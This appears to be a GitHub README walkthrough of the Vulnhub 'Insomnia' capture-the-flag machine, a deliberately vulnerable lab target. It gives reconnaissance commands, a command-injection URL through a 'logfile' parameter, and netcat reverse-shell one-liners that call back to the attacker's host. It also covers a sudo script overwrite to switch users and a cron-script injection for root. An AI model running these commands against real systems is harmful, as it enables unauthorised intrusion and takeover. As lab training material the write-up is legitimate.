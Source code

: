 # Insomnia Walkthrough: Let's Hack a Dream!

Hey there! Ready to dive into the world of hacking? Today, we’re cracking into **Insomnia** from Vulnhub. I’m your guide, Whitej, and I promise to make this a fun ride. Let's go!

![alt img](images/insominia.gif)

## Step 1: Plugging In (a.k.a. Setting Up Connections)
Before we start poking around, let’s make sure our attacker machine (Kali) and the victim machine (Insomnia) can chat. Think of this as setting up a coffee date for hacking.

### Options:
1. **NatNetwork**: 
   - Create a NatNetwork and slap it on both machines. Boom, instant connection.

2. **Bridged Network**:
   - Connect both machines to the same adapter. A little extra work, but hey, variety is the spice of life.

Now, let’s make sure our machines are besties by setting up a solid connection.

### First, Find Your IP:
Run this classic command:
```sh
ifconfig
```
### Next: Find All Devices  
Time for an ARP party:🎈 ++78```sh
sudo arp-scan -l
```
OR use netdiscover if you’re feeling fancy:

sh
```sh
sudo netdiscover -i eth0 -r <IP address range>.0/24
```   

Sweet, we’ve got the doors to knock on. Next stop: digging deeper usng the nmap🔍

## 🔍 Nmap: Scanning for Open Doors 🚪


We'll use the following command to scan for open ports and identify the services running on those ports:
```sh
nmap -sV -sC -A -p- <Victim's IP address>
```
![alt img](images/nmap.png)

Now we see the http on port 8080 🚪.Let’s browse and see what’s cooking.
![alt img](images/homepage.png)
👀 We see a chat feature, but it’s a bit of a dead end for now. Time to bring in DIRB and brute-force some directories.

```sh
dirb -h <IP>:8080 -X .php
```
 ![alt img](images/dirb.png)

 or gobuster accoding to your preferences
 
```sh
gobuster dir  -u  <IP>:8080 -w <wordlists>-X .php
```

  ![alt img](images/gobuster.png)

Boom! We found the administration.php directory and a few more, but... yep, dead ends everywhere. 🏃💨
![alt img](images/admin.png)

it says  "Your activity has been logged!"  i guess it's time to turn up the heat and fuzz some parameters with Arjun.

```sh
arjun -u http://<>:8080/administration.php
```
![alt img](images/arjun.png)

We find a juicy parameter: logfile. Could this be an LFI vulnerability? Hmm, no dice. But wait... we can try command injection!
```
http://<IP>:8080/administration.php?logfile=cd /home;ls
```
![alt img](images/admin.png)
![alt img](images/cd.png)
And... what do we have here? The result shows up directly in the chat! Now we’re cooking🔥.Lets  check the chat.txt
![alt img](images/chat.png)
![alt img](images/chatid.png)

We spot that chat.txt is executing commands. Let’s dive deeper and... execute some commands through it!
## Gaining Shell
we are going to make use of some reverse Shell Magic 🎩. Run this sneaky command and don’t forget to listen first!

```sh
echo "chat.txt; nc <IP> 4444 -e /bin/bash" > script.sh
```
Set up your listener with:
```sh
nc -lvnp 4444
```
![alt img](images/data.png)

Boom! We are in🧑‍🤝‍🧑. Quickly Spawn a terminal shell using python  and we have our first flag 😁😁

![alt img](images/flag1.png)

Let’s check sudo privileges for the user:
```sh
sudo -l
```
![alt img](images/flag1.png)

## Priviledge Escalation 😎
From the   privildegs we saw previously, we saw that The start.sh script runs as user julia.Here’s a cheeky fix—just sneak in a /bin/bash in the script. Julia won’t mind! 😉
```sh
echo "/bin/bash" > start.sh
```
And just like that, we’re julia. Thanks, Julia! I know you won’t mind. 😎

![alt img](images/julia.png)

## Gaining Root 🚀
At first glance, there’s not much interesting. But wait... if we check /etc/crontab, we spot a file running on the system. Looks like an opportunity to exploit and to our de light a cron job is running a script called check.sh. Let’s spy like a pro with pspy64 🕵️‍♀️.
![alt img](images/cron.png)

First, get pspy64 on the target (discreetly, like a ninja in /tmp) from the attacker machine  using wget
```sh
wget http://<attackerIP>:8000/pspy64
```
```sh
chmod +x /tmp/pspy64
./pspy64
```
![alt img](images/pspy.png)
![alt img](images/pspy64.png)


👀 Aha! The check.sh script runs every minute. Even better—it’s editable.The payload drop 💣is to add this reverse shell to the script:
```sh
echo "nc <your_ip> 1234 -e /bin/bash" >> /path/to/check.sh
```
![alt img](images/listener.png)

Set up your listener again:

```sh
nc -lvnp 1234
```
⏳ Wait a minute (literally), and...
![alt img](images/rootpng)

WE ARE ROOT! 🏆
![alt img](images/roottext.png)

Congratulations! 🎉 You’ve successfully hacked your way to the top. Thanks for reading! Hope this walkthrough helps you go from "huh?" to "ha!" with White J Great job, keep learning, and you'll go even further! 😉


